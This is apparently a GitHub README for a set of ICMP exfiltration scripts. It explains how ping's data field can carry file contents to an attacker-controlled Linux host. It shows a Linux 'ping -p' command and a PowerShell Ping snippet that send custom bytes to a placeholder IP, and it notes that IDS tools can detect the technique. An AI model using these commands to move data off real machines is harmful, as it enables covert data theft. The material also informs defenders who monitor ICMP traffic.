





# ICMP-Exfiltration-Scripts
This repository contains the necessary scripts to exfiltrate the contents of a file from a Windows or Linux machine using the ICMP protocol (ping requests) to a Linux machine under your control.

- **icmpExfiltration.py**: Python script to exfiltrate a file from a Linux machine.
- **winIcmpExfiltration.ps1**: Powershell script to exfiltrate a file from a Windows machine.
- **icmpCapture.py**: Script to capture the exfiltrated file.


## More Information
### Using ICMP for Data Exfiltration

Malicious actors can use ICMP (Internet Control Message Protocol) to exfiltrate data, exploiting the fact that organizations often overlook the risks associated with allowing outbound ICMP traffic.

### How Does It Work?

ICMP packets include an optional "Data" field of variable length, which can be used to transmit arbitrary information.



By default, if an ICMP echo request originates from a standard Windows ping, the data field will look something like this:



However, if the request comes from a Linux system, the data field might look like this:



### Modifying the Data Field

There are system tools available that allow us to write arbitrary information into this Data field.

#### *Linux*

- You can use the `-p` (pattern) flag with the `ping` command to send a specific sequence of up to 32 bytes (16 characters).
  
  ```bash
  ping -p <HEX_BYTES> <IP_ADDRESS>
  ```

  This command sends the specified hexadecimal byte sequence to the target IP address.

  

  

#### *Windows*

- In Windows, you can use PowerShell's `System.Net.NetworkInformation.Ping` to achieve a similar effect, and you can send more than 32 bytes.

  ```powershell
  $ping = New-Object System.Net.NetworkInformation.Ping
  $buffer = [Text.Encoding]::ASCII.GetBytes("YourDataHere")
  $ping.Send("IP_ADDRESS", 120, $buffer)
  ```

  This PowerShell script allows you to send custom data to the target IP address via ICMP echo requests.


### Practical Considerations

While using ICMP for exfiltration might bypass some security controls, it’s important to note that many modern security systems can detect and block unusual ICMP traffic patterns. For instance, an intrusion detection system (IDS) might flag a series of ICMP packets with non-standard data patterns.

Thus, while ICMP exfiltration can be effective in environments with less stringent monitoring, it's not foolproof and should be considered within the broader context of network security.

